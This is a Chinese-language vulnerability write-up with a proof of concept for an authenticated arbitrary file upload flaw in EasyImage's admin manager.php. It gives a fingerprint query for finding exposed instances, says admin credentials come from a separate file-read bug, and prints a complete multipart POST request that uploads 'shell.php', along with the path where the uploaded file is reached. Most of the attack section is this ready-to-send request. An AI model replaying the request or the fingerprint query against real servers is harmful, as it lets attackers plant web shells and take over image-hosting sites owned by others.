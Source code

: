 # EasyImage manager.php 后台任意文件上传漏洞

# EasyImage manager.php 后台任意文件上传漏洞

## 漏洞描述

EasyImage manager.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件到服务器获取服务器权限

## 漏洞影响

```
EasyImage
```

## 网络测绘

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094210473](images/image-20230417094210473.png)

登陆后台后发送POC (通过任意文件读取获取账号密码)

```
POST /admin/manager.php?p= HTTP/1.1
Host: 
Accept: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: no-cache
Content-Length: 1622
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEUCF9Yq83AkaO6sv
Cookie: Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680341989; auth=a%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22tossone%22%3Bi%3A1%3Bs%3A32%3A%22590368bca375c2f8fe93df7d253481e8%22%3B%7D; Hm_lpvt_c790ac2bdc2f385757ecd0183206108d=1680342144; filemanager=sdeemhj3b9aeoretftrlijjh25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36

------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzuuid"

7e4fad9a-3545-4ed6-b655-b3e3a6b2978c
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkindex"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalfilesize"

583
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunksize"

10000000
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalchunkcount"

1
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkbyteoffset"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="p"


------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

234

------WebKitFormBoundaryEUCF9Yq83AkaO6sv--
```

![image-20230417094255974](images/image-20230417094255974.png)

上传访问地址为

```
/i/shell.php
```

